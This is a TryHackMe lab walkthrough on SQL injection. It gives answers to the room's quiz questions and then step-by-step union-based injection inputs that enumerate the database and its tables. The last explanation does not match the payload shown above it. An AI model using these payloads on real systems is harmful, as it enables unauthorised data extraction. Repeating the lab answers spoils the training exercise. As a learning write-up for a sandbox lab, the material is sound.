 <h1 align='center'>:fire: TryHackMe SQL Injection room :fire: </h1>

![show image](images/1-show.png)<br/>
[SQL Injection Room](https://tryhackme.com/room/sqlinjectionlm)


## Task 1: Breif
### Q: What does SQL stand for?
![what does](images/2-what-does.png)<br/>
#### A: `Structured Query Language` :heavy_check_mark:<br/>

## Task 2: What is database?
### Q: What is the acronym for the software that controls a database?
![dbms](images/3.png)<br/>
#### A: `DBMS` :heavy_check_mark:<br/>

### Q: What is the name of the grid-like structure which holds the data?
![table](images/4-table.png)<br/>
#### A: `table` :heavy_check_mark:<br/>

## Task 3: What is SQL?
### Q: What SQL statement is used to retrieve data?
![select](images/5-select.png)<br/>
#### A: `SELECT` :heavy_check_mark:<br/>

### Q: What SQL clause can be used to retrieve data from multiple tables?
![union](images/6-union.png)<br/>
#### A: `UNION` :heavy_check_mark:<br/>

### Q: What SQL statement is used to add data?
![insert](images/7-insert.png)<br/>
#### A: `INSERT` :heavy_check_mark:<br/>

## Task 4: What is SQL Injection?
### Q: What character signifies the end of an SQL query?
![semicolon](images/8-semicolon.png)<br/>
#### A: `;` :heavy_check_mark:<br/>

## Task 5: In-Band SQLi
### Q: What is the flag after completing level 1?
    '
![apostrophe](images/9-apostrophe.png)<br/>
Try typing an apostrophe `'` after the `id=1` and press enter. And you'll see this returns an SQL error informing you of an error in your syntax.<br/>

    1 UNION SELECT 1,2,3
![error solved](images/10-error-solved.png)<br/>
Success,  the error message has gone, and the article is being displayed, but now  we want to display our data instead of the article.<br/>

Now change value `1` to `0` before UNION

    0 UNION SELECT 1,2,3
![change value](images/11-change-value.png)<br/>
You'll now see the article is just made up of the result from the UNION select returning the column values `1, 2, and 3`<br/>

    0 UNION SELECT 1,2,database()
![datanase](images/12-database.png)<br/>
It now shows the name of the database, which is `sqli_one`.<br/>

    0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
![tables name](images/13-get-tables-name.png)<br/>
The information we want to retrieve has changed from table_name to `column_name`, the table we are querying in the information_schema database has changed from tables to `columns`, and we're searching for any rows where the `table_name` column has a value of `staff_users`.<br/>